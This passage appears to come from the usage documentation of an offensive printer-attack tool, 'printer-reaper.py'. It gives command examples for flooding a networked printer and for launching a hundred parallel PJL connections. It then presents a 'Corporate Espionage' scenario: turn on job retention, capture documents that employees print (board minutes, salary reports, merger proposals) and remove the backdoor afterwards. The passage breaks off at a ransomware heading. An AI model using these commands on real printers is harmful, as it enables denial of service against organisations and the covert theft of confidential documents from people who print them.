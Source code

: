 
## 📊 Performance Testing Examples

### Example 14: Stress Testing

```bash
# Upload large file
192.168.1.100:/> upload large_file.dat

# Flood test
192.168.1.100:/> flood 1000000

# Connection stress
for i in {1..100}; do
    python3 printer-reaper.py -q 192.168.1.100 pjl -c "id" &
done
```

---

## 🎯 Practical Attack Scenarios

### Scenario 1: Corporate Espionage

**Objective**: Capture confidential documents

```bash
# 1. Identify target printer (conference room MFP)
$ python3 printer-reaper.py 192.168.10.50 pjl

# 2. Enable job retention
> hold
> capture

# 3. Wait for documents to be printed
# (Employees print confidential documents)

# 4. Collect captured jobs
$ ls exfiltrated/
board_meeting_minutes.pdf
salary_report_q4.xlsx
merger_proposal.docx

# 5. Clean up
> backdoor_remove
> exit
```

---

### Scenario 2: Ransomware Simulation

